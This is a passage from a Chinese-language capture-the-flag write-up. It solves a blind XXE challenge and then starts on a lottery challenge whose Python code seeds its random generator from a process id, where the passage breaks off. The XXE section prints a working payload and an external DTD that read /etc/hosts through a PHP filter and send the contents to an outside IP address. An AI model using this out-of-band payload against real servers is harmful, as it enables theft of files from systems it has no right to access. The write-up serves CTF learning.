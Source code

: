 然后尝试一波之后没有想法,一直都报错,后来才知道,报错是没关系的,因为已经执行了,所以是一个 blind xxe   

然后直接用里面的payload改一该就好了,提交的文件内容如下:



```
&lt;!DOCTYPE ANY [
&lt;!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/hosts"&gt;
&lt;!ENTITY % xxe SYSTEM "http://104.160.43.154:8000/evil.dtd"&gt; %xxe;%send; ]&gt;
&lt;!-- Invitations --&gt;
id,name,email
```

然后vps上的evil.dtd内容如下：



```
&lt;!ENTITY % all
"&lt;!ENTITY % send SYSTEM 'http://104.160.43.154:8000/xss/?file=%file;'&gt;"
&gt;
%all;
```

成功获取到hosts的内容,那么开始寻找 flag ,最后是在 /home/flag/flag 里面,  

最后截图如下:

[![](./img/85852/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01eadf73b0b22457aa.png)

<br>

**Slumdog Millionaire**

从题目获取代码如下：



```
#!/usr/bin/python2.7
import random
import config
import utils
random.seed(utils.get_pid())
ngames = 0
def generate_combination():
    numbers = ""
    for _ in range(10):
        rand_num = random.randint(0, 99)
        if rand_num &lt; 10:
            numbers += "0"
        numbers += str(rand_num)
        if _ != 9:
            numbers += "-"
    return numbers
def reset_jackpot():
    random.seed(utils.get_pid())
    utils.set_jackpot(0)
    ngames = 0
def draw(user_guess):
    ngames += 1
    if ngames &gt; config.MAX_TRIES:
        reset_jackpot()
    winning_combination = generate_combination()
    if winning_combination == user_guess:
        utils.win()
        reset_jackpot()
```
